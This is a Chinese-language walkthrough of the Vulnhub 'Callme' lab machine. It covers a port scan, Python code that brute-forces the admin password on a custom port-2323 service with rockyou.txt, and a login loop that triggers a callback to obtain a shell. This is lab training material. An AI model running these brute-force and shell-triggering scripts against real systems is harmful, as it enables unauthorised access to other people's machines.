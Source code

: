 # Callme

## 端口扫描

通过nmap得知存在三个端口与服务

![image-20221219205105314](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/Callme/index/image-20221219205105314.png)



## 攻击2323端口

首先可以看出这个服务类似IMAP，当然肯定不是，那么我们考虑用telnet进行交互

![image-20221219205751808](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/Callme/index/image-20221219205751808.png)

存在一个登录的交互

![image-20221219205919907](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/Callme/index/image-20221219205919907.png)

经过测试这里可以得知用户名为admin

![image-20221219210017970](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/Callme/index/image-20221219210017970.png)

既然如此我们可以尝试爆破密码

```python
import socket
import time
import sys

with open('./rockyou.txt') as passwords:
    for (passwd,i) in zip(passwords,range(1,1575)):
        print("\r", end="")
        username = b'admin'
        ip = '172.20.10.4'
        port = 2323
        s = socket.socket()
        s.connect((ip, port))
        s.recv(1024)
        s.recv(1024)
        s.send(username + b'\r\n')
        s.recv(1024)
        s.send(passwd.strip().encode() + b'\r\n')
        re = s.recv(1024)
        s.recv(1024)
        sys.stdout.flush()
        time.sleep(0.01)
        if "Wrong password for user admin" not in str(re):
            print("\n[*] Get it! PASSWORD is:")
            print(passwd)
            break


```

成功得到密码booboo

![image-20221219210446166](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/Callme/index/image-20221219210446166.png)

猜测这个数字和端口有关

![image-20221219210709444](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/Callme/index/image-20221219210709444.png)

根据此我监听了一个2223端口，一直爆破就行等待上线

```python
import socket
import time

username = b'admin'
password = b"booboo"
ip = '172.20.10.4'
port = 2323
while True:
    s = socket.socket()
    s.connect((ip, port))
    s.recv(1024)
    s.send(username + b'\r\n')
    s.recv(1024)
    s.send(password + b'\r\n')
    re = s.recv(1024)
    print(s.recv(1024))
    s.close()


```

拿到shell

![image-20221219212215613](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/Callme/index/image-20221219212215613.png)
